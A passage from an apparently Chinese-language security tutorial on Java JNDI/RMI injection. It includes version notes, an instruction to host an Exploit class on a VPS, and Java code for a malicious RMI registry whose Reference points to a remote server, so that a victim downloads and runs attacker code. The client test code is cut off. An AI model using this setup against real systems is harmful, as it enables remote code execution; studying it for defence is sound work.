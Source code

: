 **注意** 编译`Exploit`的java版本需要和接下来要用的本地java版本一致，否则会导致错误

经过测试jdk1.8版本会有异常产生，需要额外设置`com.sun.jndi.rmi.object.trustURLCodebase = True`，所以这里建议使用jdk1.8以下版本

![error](https://ob5vt1k7f.qnssl.com/b2MmC)

编译完成之后在VPS开启一个http服务

#### 本地
> JNDIServer.java

```
package person.server;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

/**
 * Created by liaoxinxi on 2017-11-6.
 */

public class JNDIServer {
    public static void start() throws AlreadyBoundException, RemoteException, NamingException {
        Registry registry = LocateRegistry.createRegistry(1099);
        //http://xxlegend.com/Exploit.class即可
        //factoryLocation 一定得是ip后带斜杠，这个斜杠少不得，少了的话到web服务器的请求就变成了GET / 而不是正常的GET /Exploit.class
        Reference reference = new Reference("Exploit",
                "Exploit", "http://remote_server:80/"); //此处修改为自己的远程服务器
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("Exploit", referenceWrapper);

    }

    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
        start();
    }
}
```

将`factoryLocation`指向远程`Exploit`所在的地址，并且要以`/`结尾，原因注释里已经说了

> TestJNDI.java

```
package person;

import javax.naming.*;
import javax.naming.directory.DirContext;
import javax.naming.directory.InitialDirContext;
import java.util.Hashtable;


/**
 * Created by liaoxinxi on 2017-9-5.
 */
public class TestJNDI {
    public static void testRmi() throws NamingException {
        String url = "rmi://127.0.0.1:1099";
        Hashtable env = new Hashtable();
        env.put(Context.PROVIDER_URL, url);
```